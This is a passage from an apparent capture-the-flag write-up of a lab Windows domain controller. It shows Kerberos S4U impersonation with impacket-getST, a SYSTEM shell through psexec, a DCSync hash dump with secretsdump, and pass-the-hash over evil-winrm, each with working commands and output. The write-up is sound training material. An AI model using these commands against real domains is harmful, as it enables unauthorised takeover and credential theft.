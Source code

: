 Now, request a **S4U ticket impersonating the administrator user** in the CIFS/DC.support.htb's SPN.

```bash
impacket-getST 'support.htb/dusk$:Dusk3d123!' -impersonate administrator -spn 'cifs/DC.support.htb'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_DC.support.htb@SUPPORT.HTB.ccache
```

All that is left is connecting to the Domain Controller as SYSTEM via Kerberos authentication and reading both flags.

```
KRB5CCNAME=administrator@cifs_DC.support.htb@SUPPORT.HTB.ccache impacket-psexec support.htb/administrator@DC.support.htb -k -no-pass

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
dc

C:\Windows\system32> type c:\users\administrator\desktop\root.txt
6476c9769bab708c****************

C:\Windows\system32> type c:\users\support\desktop\user.txt
f4d44a3f51edf2f9****************
```

Another option would be to dump the administrator hash with a **DCSync attack**.

```bash
KRB5CCNAME=administrator@cifs_DC.support.htb@SUPPORT.HTB.ccache impacket-secretsdump support.htb/administrator@DC.support.htb -k -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:<REDACTED>:::
```

And connect over WinRM as local administrator in the DC. GGs!

```
evil-winrm -u administrator -H <REDACTED> -i 10.129.230.181       

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
support\administrator
```
